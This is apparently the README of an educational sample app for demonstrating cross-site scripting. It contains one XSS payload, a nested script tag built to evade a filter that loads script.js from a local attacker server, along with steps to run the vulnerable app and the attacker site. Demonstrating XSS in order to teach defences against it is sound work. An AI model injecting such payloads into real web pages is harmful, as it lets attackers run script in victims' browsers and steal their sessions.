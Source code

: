 # payload

`<<script><sscript src="http://localhost:8000/script.js"></script>`

### Running the Application

To run this project, follow these steps:

1. Clone this repository (`git clone https://github.com/auth0-blog/xss-sample-app.git`)

2. Move to the root folder of the project (`xss-sample-app`) in your machine and install the dependencies by running the following command:

   ```shell
   npm install
   ```

3. To launch the web application, run the following command:

   ```shell
   node server.js
   ```

4. Point your browser to [http://localhost:3000](http://localhost:3000) to access the sample web app.

5. To launch the attacker website, run the following command:

   ```shell
   node attacker-server.js
   ```

6. Point your browser to [http://localhost:4000](http://localhost:4000/) to access the attacker website



Please, read [Defend Your Web Apps from Cross-Site Scripting (XSS)](https://auth0.com/blog/cross-site-scripting-xss/) to learn more about XSS attacks and how to prevent them.

